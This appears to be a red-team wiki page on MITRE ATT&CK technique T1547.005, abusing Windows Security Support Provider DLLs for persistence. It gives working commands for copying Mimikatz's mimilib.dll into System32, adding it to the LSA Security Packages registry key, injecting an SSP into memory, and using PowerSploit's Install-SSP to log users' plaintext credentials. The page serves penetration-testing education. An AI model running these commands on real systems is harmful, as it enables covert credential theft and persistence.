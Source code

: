 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Security Support Provider -
  Technique T1547.005
---
```


# Security Support Provider DLLs

## Theory

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

## Practice

{% hint style="danger" %}
We won't be able to make it work If [LSA protection (RunAsPPL)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry) is enabled. Loaded SSP DLLs will have to be signed by Microsoft as LSASS.exe will run as a [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process).
{% endhint %}

We may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called. The SSP configuration is stored in this two Registry keys:

* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`
* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages`.&#x20;

{% tabs %}
{% tab title="Mimikatz" %}
The [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases) project provides a DLL file (mimilib.dll) that can be used as a malicious SSP DLL that will log credentials in this file:

```powershell
C:\Windows\System32\kiwissp.log 
```

First, you will have to copy mimilib.dll in System32

```powershell
copy C:\Windows\Temp\mimilib.dll C:\Windows\System32\mimilib.dll
```

Then, edit LSA registry keys to include the new security support provider

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

{% hint style="info" %}
Alternatively Mimikatz support in memory SSP DLL injection to the LSASS process.

```powershell
mimikatz# privilege::debug
mimikatz# misc::memssp
```
{% endhint %}
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://attack.mitre.org/software/S0194)'s `Install-SSP` Persistence module can be used to install a SSP DLL.

```powershell
Import-Module .\PowerSploit.psm1
Install-SSP -Path .\mimilib.dll
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/005/" %}

{% embed url="https://pentestlab.blog/2019/10/21/persistence-security-support-provider/" %}
